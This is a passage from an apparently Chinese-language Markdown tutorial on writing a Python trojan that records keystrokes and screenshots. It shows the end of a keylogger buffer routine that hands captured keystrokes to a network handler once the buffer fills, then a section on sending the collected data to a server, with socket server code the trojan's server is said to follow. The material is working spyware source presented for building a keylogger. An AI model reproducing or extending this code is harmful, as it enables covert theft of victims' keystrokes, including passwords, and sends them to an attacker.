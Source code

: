 ```python
                postion[0] = postion[0] - 1
            if postion[0] < 0:
                print u"已经到达当前缓冲区开头"
                postion[0] = 0
        elif in_str == 'Right':
            # 第一次执行right操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 1
            else:
                postion[0] = postion[0] + 1

            if postion[0] >= len(input_str_content):
                print u"已经到达当前缓冲区末尾"
                postion[0] = len(input_str_content) - 1
        else:
            if postion[0] is None:
                postion[0] = 0
            input_str_content.insert(postion[0] + 1, in_str)
            postion[0] = postion[0] + 1
        # 缓存区已经满了，此时需要将缓冲区的内容处理
        # net_word_handler是进行内容处理的函数，保存到本地文件，
        # 也可以进行网络传输, 取决于传入的处理函数
        if len(input_str_content) >= str_cached_length:
            ret = net_work_handler("".join(input_str_content))
            if not ret:
                print u"网络错误，无法发送键盘记录文件,缓冲区已满, 程序结束"
                sys.exit(-2)
            input_str_content[:] = []
        # TODO content_length + 1
    return char_handler
```
#### 5.2.5 数据进行网络传输
根据前面的步骤我们已经获取我们所需要的屏幕截图和键盘输入的数据，接下来我们需要将这些数据发送到指定的服务器。在这里需要了解下Python的网络编程的相关知识。首先介绍`服务端`的编程的基本步骤:
+ 建立一个`socket`套接字对象
+ 绑定这个套接字到服务器的ip和端口号
+ 设置最大链接数量
+ 接受客户端的链接
+ 与客户端进行通讯
+ 关闭相关资源

用Python实现的代码如下，这是一个最基本服务器的实现，该木马程序中的示例服务器也是基于这个模型进行的。
```python
import socket
import json

# 开启ip和端口
ip_port = ('127.0.0.1', 8888)
# 生成一个句柄
sk = socket.socket()
# 绑定ip端口
sk.bind(ip_port)
# 最多连接数
sk.listen(5)
# 自定义的数据处理函数
def data_handle(data):
    pass
# 开启死循环，接受客户端的请求
while True:
    conn, addr = sk.accept()
    header_message = conn.recv(1024)
    # 获取客户端请求数据
    client_data = conn.recv(1024*10)
    # 数据进行业务处理
```

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png